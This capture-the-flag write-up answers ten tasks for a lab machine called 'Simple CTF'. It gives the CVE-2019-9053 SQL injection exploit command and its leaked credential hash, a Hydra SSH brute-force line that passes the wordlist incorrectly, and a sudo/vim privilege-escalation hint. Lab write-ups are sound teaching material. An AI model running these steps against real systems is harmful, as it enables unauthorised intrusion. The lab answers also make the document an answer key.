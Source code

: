 # Machine NAME : Simple CTF
# Machine IP   : 10.10.126.194

***TASK 1 : How many services are running under port 1000?***
```
2
Reference file :  Gathering/SimpleCTF_Scanning.txt
```

***TASK 2 : What is running on the higher port?***
```
ssh
```
***TASK 3 : What's the CVE you're using against the application?***
```
: CVE-2019-9053 

 SITE MAP SCANING : gobuster (Reference file : Gathering/SimpleCTF_gobuster.txt)
 1.EXPLOIT-DB LINK : https://www.exploit-db.com/exploits/46635 
 2.convert python2 to python3 command : 2to3 -w {file_name} 
 3.command :./46635.py -u http://{ip}/{dir}/ 
[+] Salt for password found: 1dac0d92e9fa6bb2 
[+] Username found: mitch 
[+] Email found: admin3@ 
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96 
```

***TASK 4: To what kind of vulnerability is the application vulnerable?***
```
sqli 
```

***TASK 5: What's the password?*** 
```
password is secret 
PASSWORD BRUTE FORCING (Hydra) 
hydra -l mitch -p rockyou.txt ssh://{ip}/
```

***TASK6 : Where can you login with the details obtained?***
```
ssh
```

***TASK 7 : What's the user flag?*** 
```
Do it 
```

***TASK 8: Is there any other user in the home directory? What's its name?***
```
sunbath
```

***TASK 9 :	What can you leverage to spawn a privileged shell?*** 
```
vim
```

***TASK 10 : What's the root flag?***
```
command : sudo -l 
command : vim privilge escalate!
```